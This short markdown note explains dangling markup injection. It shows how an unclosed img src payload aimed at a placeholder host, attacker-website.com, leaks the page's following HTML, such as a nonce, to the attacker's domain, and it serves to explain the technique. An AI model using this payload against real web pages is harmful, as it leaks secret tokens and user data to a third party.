 # Dangling markup injection

So basically if we have an html injection in a page lets say that we have control over 
```<input type="text" name="input" value="CONTROLLABLE DATA HERE```, we can basically give a payload like ```"><img src='//attacker-website.com?```, so what happens here is that since the src attribute isn't closed all the html that is there up until the next single qoute is treated as query parameter and is sent along with the request to the attackers domain using this we can leak valuable info such as nonce etc.
